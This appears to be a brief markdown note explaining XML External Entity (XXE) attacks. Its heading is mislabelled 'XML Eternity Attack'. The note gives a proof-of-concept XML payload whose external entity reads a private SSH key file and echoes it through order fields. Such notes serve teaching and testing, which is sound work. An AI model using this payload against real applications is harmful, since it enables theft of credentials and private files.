 # XXE (XML Eternity Attack"

## Description

XXE stands for XML External Entity attack. It's a type of attack against applications that parse XML input.

#### PoC

```
<?xml version = "1.0"?>
  <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///C:/Users/Daniel/.ssh/id_rsa">]>
  <order>
  <quantity>
  7
  </quantity>
  <item>
  &xxe;
  </item>
  <address>
  &xxe;
  </address>
  </order>
```
